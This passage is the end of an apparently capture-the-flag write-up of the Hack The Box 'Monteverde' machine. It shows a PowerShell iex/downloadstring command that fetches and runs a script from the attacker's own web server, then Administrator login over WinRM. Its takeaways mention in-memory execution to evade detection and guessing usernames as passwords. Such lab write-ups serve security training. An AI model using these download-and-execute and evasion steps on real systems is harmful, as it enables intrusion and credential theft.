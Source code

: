 Now, on our system, we will open a Python server.

```bash
python3 -m http.server 80
```

Once we do that we will run `iex(new-object net.webclient).downloadstring('http://<our ip>/adsync.ps1')`

![](/assets/images/htb/monteverde/20.png)

---


## Post-Exploitation and Flag

We now have administrator credentials and can log in through WinRM as Administrator.

![](/assets/images/htb/monteverde/21.png)

 Lastly, as usual per HTB, we can go to `C:\users\administrator\desktop\`  

 and `cat root.txt`

![](/assets/images/htb/monteverde/22.png)

---

## Key Takeaways
- Services give you a good idea early on as to whether a system is a domain.
- SMB Null Sessions: It's always good to use multiple tools, as one tool may not reveal anything, but others may leak usernames.
- Testing users as passwords is a good move when all else fails.
- WinRM can be a goldmine if you have the necessary credentials, and it is easy to use for post-exploitation purposes.
- PowerShell's iex with downloadstring keeps scripts off disk and helps evade detection.

---


